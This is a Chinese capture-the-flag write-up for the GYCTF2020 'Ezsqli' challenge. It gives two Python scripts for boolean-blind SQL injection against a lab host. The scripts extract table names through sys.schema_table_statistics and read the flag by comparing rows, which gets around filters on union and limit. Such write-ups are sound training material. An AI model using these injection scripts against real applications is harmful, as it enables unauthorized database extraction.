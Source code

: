 # \<GYCTF2020>Ezsqli


打开题目，显然是SQL注入

测试为数字型注入，测试过滤的关键字，可用布尔盲注，脚本如下
```python
import requests

tar_url="http://7772275b-dfab-48c8-99c0-5bbf6c3f97c2.node4.buuoj.cn:81/index.php"
get_data={"id":""}
query_table="sys.schema_table_statistics"
query_column_1="table_name"
query_column_2="table_schema"

for i in range(1,50):
    for w in range(32,127):
        get_data["id"] = f"0^(ascii(substr((select group_concat({query_column_1}) from {query_table} where {query_column_2}=database()),{i},1))={w})"
        repo=requests.post(url=tar_url,data=get_data)
        if "Nu1L" in repo.text:
            print(chr(w),end="") 
```
~~这个脚本还是挺慢的，但懒得写二分，趁着跑脚本划水也挺好的~~
得到表名
>users233333333333333,f1ag_1s_h3r3_hhhhh

`union`被过滤了，采用逐个对比的方法查字段数，
```html
id=0^((select 1,2)>(select * from f1ag_1s_h3r3_hhhhh))
```
回显```Nu1L```，说明字段数为2
尝试逐个读取，但`limit`被过滤了，好在只有一行数据

```python
import requests

tar_url="http://7772275b-dfab-48c8-99c0-5bbf6c3f97c2.node4.buuoj.cn:81/index.php"
get_data={"id":""}
answer=""

for i in range(1,50):
    for w in range(32,127):
        suffix=chr(w)
        get_data["id"] = f"0^((select '{answer}{suffix}',1)>(select * from f1ag_1s_h3r3_hhhhh))"
        repo=requests.post(url=tar_url,data=get_data)
        if "Nu1L" in repo.text:
            answer+=chr(w-1)
            print(answer)
            break
```
结果爆出一堆零，读取第二列，得到flag
